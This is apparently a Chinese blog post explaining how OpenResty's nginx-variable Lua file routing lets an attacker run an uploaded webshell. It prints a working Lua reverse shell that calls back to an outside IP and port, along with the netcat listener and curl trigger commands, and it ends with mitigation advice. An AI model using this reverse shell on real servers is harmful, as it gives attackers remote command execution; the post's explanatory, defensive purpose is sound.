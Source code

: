 ```yaml
---
layout:     post
title:      "OpenResty 中的安全隐患"
subtitle:   ""
date:       2017-06-05 00:00:00
author:     "ms2008"
header-img: "img/post-bg-2015.jpg"
catalog:    true
tags:
    - Lua
    - OpenResty
---
```


在 OR 的官方 GitHub 中，介绍了这么一种简单的「路由」写法
```perl
# use nginx var in code path
# CAUTION: contents in nginx var must be carefully filtered,
# otherwise there'll be great security risk!
location ~ ^/app/([-_a-zA-Z0-9/]+) {
    set $path $1;
    content_by_lua_file /path/to/lua/app/root/$path.lua;
}
```

相信不少不同学也都使用了这种简便的方式。然而却忽略了春哥的警告：
> **CAUTION: contents in nginx var must be carefully filtered, otherwise there'll be great security risk!**

这里我来说下这个安全隐患是如何产生的。假如我们现在的路由结构是：
```
root/
├── fan.lua
├── follower.lua
└── user.lua
```

正常情况下我们请求 `/app/user` 就应该执行 `root/user.lua` 代码；`/app/follower` 就应该执行 `root/follower.lua` 代码。这是我们期待的结果。

但是假如你的服务器有文件上传漏洞或 SQL 注入漏洞，被攻击者利用进而植入了一个 `shell.lua` 的 webshell，那么现在我们的路由结构是：
> SQL 注入不仅仅可以拖库，也是可以写 shell 的(SELECT OUTFILE)

```
root/
├── fan.lua
├── follower.lua
├── user.lua
└── shell.lua
```

这时候去请求 `/app/shell`，就自然的去连接这个 webshell 了，这个 `shell.lua` 看起来是这个样子（反弹 shell 到攻击者的地址）：
```lua
local sock = ngx.socket.tcp()
local ok, err = sock:connect("192.168.3.5", "2333")
if not ok then return end

while true do
    local r,x = sock:receive()
    local f = assert(io.popen(r,"r"))
    local b = assert(f:read("*a"))
    sock:send(b)
end

f:close()
sock:close()
```

我先在我的攻击机上执行（准备接收反弹回来的 shell）
```
nc -lvv 2333
```

开启另一个终端执行
```
curl http://victim/app/shell
```

回到 nc 查看权限：

![](/img/in-post/attacker.png)

接下来的就是去提权了。。。


要避免这个问题，就是要在匹配路径上做出更为严格的限制，但是这会导致 nginx.conf 可读性较差。

我的建议是路由还是直接放在 lua 里完成，这样我们的 `handler()` 可以获得更为安全的签名保护。反观今天的测试，其实本质上还是因为我们执行了不该信任的代码(没有签名)，最终导致系统沦陷。如果使用 lua 模块化（相当于签名）的路由方式，就可以避免这个问题（即使你拿到了上传或注入的漏洞，最多也就是拖个库，也不会拿到整个系统的权限）。

------

有人说，时间是把杀猪刀。这很公平。但是，即使哪天挨上了这把杀猪刀，也希望自己是头优雅的猪。

而此时，2017 已经过去 1/2